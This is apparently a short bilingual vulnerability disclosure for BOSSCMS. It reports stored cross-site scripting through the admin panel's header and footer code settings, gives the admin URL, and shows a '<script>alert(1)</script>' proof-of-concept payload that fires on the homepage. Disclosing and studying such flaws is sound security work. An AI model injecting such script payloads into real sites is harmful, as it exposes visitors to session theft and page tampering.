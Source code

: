 # BOSSCMS background project management--code configuration--stored XSS exists in the header code and bottom code

# BOSSCMS后台项目管理--代码配置--头部代码和底部代码存在存储型XSS

url:http://127.0.0.1/bosscms1/admin/#mpf=site/code

payload:

```html
<script>alert(1)</script>
```

![image-20240329144227744](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240329144227744.png)



Return to homepage, trigger XSS

返回首页，触发XSS

![image-20240329144304027](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240329144304027.png)